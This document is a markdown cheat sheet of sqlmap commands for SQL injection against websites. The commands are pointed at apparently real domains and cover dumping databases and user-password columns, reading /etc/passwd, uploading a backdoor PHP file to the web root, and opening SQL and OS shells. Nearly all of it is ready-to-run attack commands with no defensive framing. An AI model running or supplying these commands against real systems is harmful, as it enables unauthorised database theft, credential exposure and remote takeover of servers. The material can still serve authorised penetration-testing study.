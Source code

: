 # SqlMap Quick CheatSheet


__URL WRITING__

__Single URL__
```console
sqlmap -u http://signisasia.net/books/view?id=1 --dbs
```

__Input Request in File__

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r request.txt
```


__Input Request in File(Test only username parameter)__

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r req.txt -p username
```


__Testing a pattern of URL's__

- If we have test for a URL scheme injection like 

```console
http://signisasia.net/books/1/view
http://signisasia.net/books/2/view
http://signisasia.net/books/3/view
```

- The following URL's can be used to test all the URL's

```console
sqlmap -u http://signisasia.net/books/*/view --dbs
```

__[Post injection Direcltly]__
```console
sqlmap -u http://imranparray.com/login.php --data "username=imx&pass=imx100&submit=Submit" -p username

> --data is the post data send in the request
> -p is the injection point.
```




__Using Cookies__
```console
sqlmap -u http://imranparray.com/welcom.php --cookie="PHPSESSID=adsaasd56454a6s54d54" -u http://imranparray.com/welcome/functionality.php?id=100
```




## Exploitation


__Extract Databases__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 --dbs 	
```
__Extract Tables from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database --tables
```

__Extract Columns of table_name from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name --columns
```

__Dumping Data__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name -C colum1,column2,clumn3 --dump
```





## Speeding Up The process

__Multithreading__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --threads 5
```


__Null-Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --null-connection
```

__HTTP Persistant Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --keep-alive
```

__Output prediction__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 -D database -T user -c users,password --dump --predict-output
```



## File Privileges

__[Checking privilages]__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --privileges
```

__Reading Files from the server__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-read=/etc/passwd
```

__Uploading Files/Shell__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-write=/root/imxx/backdoor.php --file-dest=/var/www/imran.php
```








## Getting Shells


__Sql Shell__

```console
sqlmap -u http://imranparray.com/login.php?id=100 --sql-shell
```

__OS shell__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-shell
```

__Os Command Exe without Shell Upload__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-cmd "uname -a"
```

__Using Proxy__
```console
sqlmap --proxy="127.0.0.1:8888" -u https://imranparray.com/home.php?id=12 --dbs
```
